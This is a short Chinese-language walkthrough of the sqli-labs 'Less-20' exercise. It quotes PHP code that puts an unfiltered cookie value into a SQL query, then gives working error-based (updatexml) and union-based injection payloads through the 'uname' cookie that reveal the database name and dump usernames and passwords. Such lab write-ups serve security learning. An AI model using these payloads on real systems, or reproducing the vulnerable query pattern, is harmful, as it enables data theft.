





# Less-20 基于错误的Cookie头部post注入

## 查看分析源码：
```php
// 登录成功：cookie 值 = 数据库里返回的 username
$cookee = $row1['username'];
setcookie('uname', $cookee, time()+3600);

// 第二次访问：cookie 直接拼 SQL，没有任何过滤！
$cookee = $_COOKIE['uname'];
$sql="SELECT * FROM users WHERE username='$cookee' LIMIT 0,1";
// 有报错回显
// 有数据回显（username, password, id）
```

第一次登录


数据响应返回cookie 可注入


uname=admin' and updatexml(1,concat(0x7e,(database())),1) --+ #爆库名 

...
uname=admin' and updatexml(1,concat(0x7e,(select group_concat(username,0x3a,password) from users)),1) --+ #爆数据 


**有回显也可以使用union联合注入**
...
uname=-1' union select 1,group_concat(username),group_concat(password) from users --+ #爆数据 


---
## sqlmap
